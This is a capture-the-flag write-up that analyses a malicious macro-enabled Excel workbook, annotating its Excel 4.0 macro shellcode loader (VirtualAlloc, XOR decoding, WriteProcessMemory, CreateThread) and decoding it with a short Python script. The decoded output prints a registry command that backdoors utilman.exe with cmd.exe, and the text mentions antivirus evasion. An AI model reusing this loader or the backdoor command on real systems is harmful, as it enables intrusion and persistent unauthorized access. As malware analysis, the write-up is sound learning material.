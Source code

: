 First I unzipped the xlsm document and picked it apart in a text editor, looking for interesting stuff in the xml outputs. Found:

```
<mc:Choice Requires="x15"
<x15ac:absPath url="C:\Users\wild\Documents\HTB_Challenges\CA-CTF-2022\free_services\local\" xmlns:x15ac="http://schemas.microsoft.com/office/spreadsheetml/2010/11/ac"/
</mc:Choice
</mc:AlternateContent
<xr:revisionPtr revIDLastSave="0" documentId="13_ncr:1_{57578AAA-AC9F-4195-8CF1-0CEC0153C5BD}" xr6:coauthVersionLast="47" xr6:coauthVersionMax="47" xr10:uidLastSave="{00000000-0000-0000-0000-000000000000}"/
<bookViews
<workbookView xWindow="-120" yWindow="-120" windowWidth="29040" windowHeight="15840" activeTab="1" xr2:uid="{4430E66F-0907-41B8-9086-199DA6C489AC}"/
[...]
```
in sharedStrings:
```
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="2" uniqueCount="2"><si><t>=CALL("Kernel32","CreateThread","JJJJJJJ",0, 0, R2C6, 0, 0, 0)</t></si><si><t>HALT()</t></si></sst>
```
There is also a Macro workbook:

Tried to understand what each line is doing here, took a couple notes:
```
A1=select(E1:G258) - Selects the cells with data
A2=call("Kernel32","VirtualAlloc","JJJJJ",0,386,4096,64) - Allocates an amount of bytes
A3=set.value(C1, 0) - Sets C1 to 0 initially
A4=for("counter",0,772,2)   0-772 step 2   (772 bytes in total for E1:G258 (774-2 blank), skip every other!)
A5=set.value(B1,CHAR(BITXOR(active.cell(),24)))   Sets (B1) to a char ( Xor:(active.cell^24)  
A6=call("Kernel32","WriteProcessMemory","JJJCJJ",-1, A2 + C1,β1, LEN(β1), 0) Writes process memory - (Not sure the other stuff?)
A7=set.value(C1, C1 + 1)  Add 1 to C1 for every other step so 386
A8=select(, "RC[2]")    RC[2] is two columns past the current position. (not sure?)
A9=next()
A10=CALL("Kernel32","CreateThread","JJJJJJJ",0, 0, R2C6, 0, 0, 0)  R2C6 is 2 rows down, 6 columns right..
A11=workbook.activate("Sheet1")
HALT()
```
Searched around what this might be doing, so I can figure out the params to CreateThread, etc.  


Found some code that looks oddly similar in the sharpshooter project on github:

https://github.com/mdsecactivebreach/SharpShooter/blob/master/modules/excel4.py

Wow, did not know about Excel 4.0 SYLK files (SLK pre-VBA macros)! Amazing, looks like that is what this is.

Found some basic explanations of what this code is doing here:
https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/

There was a lot more interesting talk about how this can evade AV easily, and I read up on these and SYLK files.. They were still relevant as of 2021 even it appears.. Great stuff to know!

Then I felt comfortable enough to break it down line by line and write some quick python to see what it ends up with before executing.

I saved out the cells E1:G258 as a CSV file in LibreCalc, called it mac.csv.

## mac.py
```
import csv

def readcsv(filename):
 values=[]
 print("Reading file "+filename+":")
 with open(filename, mode='r') as csv_file:
   csv_reader = csv.reader(csv_file)
   line_count = 0
   for row in csv_reader:
     if row:
       for col in row:
         if col:
           #print(col+"\t",end="")
           values.append(col)
     else:
       print("no row\nx")
     line_count += 1
 return values

# A1=select(E1:G258)
# A2=call("Kernel32","VirtualAlloc","JJJJJ",0,386,4096,64)
# A3=set.value(C1, 0)
# A4=for("counter",0,772,2)   0-772 step 2   (772 bytes in total for E1:G258 (774-2 blank), skip every other!)
# A5=set.value(B1,CHAR(BITXOR(active.cell(),24)))   Sets (B1) to a char ( Xor:(active.cell^24)
# A6=call("Kernel32","WriteProcessMemory","JJJCJJ",-1, A2 + C1,β1, LEN(β1), 0) Writes process memory -
# A7=set.value(C1, C1 + 1)  Add 1 to C1 for every other step so 386
# A8=select(, "RC[2]")    RC[2] is two columns past the current position.
# A9=next()
# A10=CALL("Kernel32","CreateThread","JJJJJJJ",0, 0, R2C6, 0, 0, 0)  R2C6 is 2 rows down, 6 columns right..
# A11=workbook.activate("Sheet1")

values=[]
bytes=[]
values=readcsv("mac.csv")
for x in range(0,772,2):
 v=values[x]
 b1=chr(int(v)^24)
 bytes.append(b1)

for b in bytes:
 print(b,end='')
```

Ran it, looks good!! Output:

```
Reading file mac.csv:
üè å1ÀdP0R
²Ph1oÿÕ»ðµ¢Vh¦½ûàu»GrojSÿÕREG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f;echo "HTB{1s_th1s_g4l4xy_l0st_1n_t1m3??!}"
```

This one took maybe a couple hours of reading up on this stuff and watching the Derbycon 2018 talk by Stan Hegt, Pieter Ceelen - the 'MS Office Magic Show' - really good stuff!!

